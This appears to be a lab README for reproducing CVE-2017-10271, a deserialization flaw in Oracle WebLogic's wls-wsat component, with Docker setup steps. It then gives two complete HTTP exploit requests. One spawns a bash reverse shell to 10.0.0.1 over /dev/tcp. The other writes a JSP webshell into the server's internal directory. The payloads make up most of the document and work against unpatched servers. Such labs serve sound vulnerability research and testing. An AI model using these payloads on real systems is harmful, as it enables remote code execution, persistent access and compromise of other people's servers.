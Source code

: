# Weblogic < 10.3.6 'wls-wsat' XMLDecoder Deserialization Vulnerability (CVE-2017-10271)

Weblogic's WLS Security component provides a webservice service externally, which uses XMLDecoder to parse the XML data passed by the user. A deserialization vulnerability occurs during the parsing process, resulting in arbitrary commands.

Reference link:

- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices Component Deserialization Vulnerability Analysis.md
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

## Environment Building

Start the test environment:

```
Docker-compose up -d
```

Wait a while, visit `http://your-ip:7001/` to see a 404 page, indicating that weblogic has started successfully.

## Vulnerability recurrence

Send the following data packet (note that the statement that bounces the shell needs to be encoded, otherwise a formatting error will occur when parsing the XML):

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

Successfully get the shell:

![](1.png)

Write to webshell (access: `http://your-ip:7001/bea_wls_internal/test.jsp`):

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter">
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```